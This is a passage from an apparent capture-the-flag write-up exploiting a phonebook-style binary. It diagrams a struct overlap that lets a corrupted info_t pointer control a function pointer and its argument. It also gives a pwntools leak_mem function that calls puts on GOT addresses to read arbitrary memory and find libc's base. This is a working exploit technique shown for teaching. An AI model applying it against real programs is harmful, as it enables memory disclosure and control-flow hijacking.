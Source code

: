 We also now know the full definition for the `contact_t` struct.

```
struct contact_t {
    void (*call_fptr)(char *number);
    char name[100];
    info_t *info;
}
```

## Info Leak

Since the binary is not PIE, we can leak an address from the global offset
table to find the base of libc. Since we can call arbitrary functions with an
arbitrary first argument, we can call `puts` from the binary's PLT with the
address of a got entry. For my solution, I arbitrarily chose printf. In my
testing, I found that corrupting the info_t pointer would cause the info struct
to overlap the contact_t struct with an offset of 16 bytes.

```
contact_t
0       16        20           80   100     120               180  200
        ---------------------------------------------
        |call_fptr| name                    |info_t*|
        ---------------------------------------------
info_t
--------------------------------------------------------------------
| address                      |pad1| number                  |pad2|
--------------------------------------------------------------------
```

Using the above diagram, we see that after overlapping the struct, we can set
the function pointer to an arbitrary value by setting `address[16:20]` to our
target function (little endian), and we can set the first argument (`info_t*`)
to an arbitrary value by writing `value-100` to `number[20:24]`. We need to
ensure we subtract 100 from the value we want to pass because the program will
add 100 to it (to access the number field in the info_t struct) before calling
the function pointer.

We can reduce this functionality to a short pwntools function. This gives us an
excellent arbitrary read primitive (assuming the objects are allocated at the
correct offset from each other.

```
def leak_mem(addr):
    """Leak an aribitrary address with puts()."""
    address = "b"*16 + p32(elf.symbols["puts"]) + "testname"
    number = "c"*20 + p32(addr - 100)
    create_contact("a"*100, address, number)

    conn.sendline("4")
    data = conn.recvuntil("Choose an option", drop=True)[:-1]
    conn.recvuntil(">")
    return data
```
